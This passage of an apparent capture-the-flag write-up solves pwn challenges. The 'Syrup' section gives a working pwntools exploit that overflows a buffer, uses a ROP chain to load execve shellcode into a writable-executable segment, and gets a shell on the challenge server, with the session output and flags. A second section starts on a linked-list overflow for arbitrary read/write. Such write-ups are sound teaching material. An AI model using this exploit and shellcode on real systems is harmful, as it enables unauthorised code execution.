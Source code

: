 Flag: `flag{captain_of_the_rot13_ship}`

## Syrup

The program does nothing much, it accepts input from user and then exits. There is a bufferoverflow vulnerbility when user feeds the input to the program, so I use it to make a `ROP chain` to write a shellcode to a `rwx` segment, then jump to it.

```python
from pwn import *

payload = b'A'*(0x400)+p64(0x6042)+b'TRASHCAN'+p64(0x401000)+\
        p64(0x402000)+p64(0x40105D)+p64(0x6042)+p64(0)+p64(0x402000)
p = remote('jh2i.com', 50036)
p.recvuntil('me?\n')
p.send(payload)
sleep(2)
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
pause()
p.send(shellcode)
p.interactive()
```

```bash
(env3) osboxes@osboxes:~/Desktop/nctf$ python syrup.py
[+] Opening connection to jh2i.com on port 50036: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
\x00$ ls
flag.txt
syrup
$ cat flag.txt
flag{Sr0ppin_t0_v1ct0Ry}
```

Flag: `flag{Sr0ppin_t0_v1ct0Ry}`

## Conveyor Belt

The program manages a linked list, it let user add a new node to the head of the list. And there is a bufferoverflow vulnerbility that we can use to overwrite the `next` pointer of a chunk, force it to point to somewhere else.

With this, we now get arbitrary read/write.

The `List` structure:

```c
struct List
{
  char buffer[120];
  struct List *next;
};
```
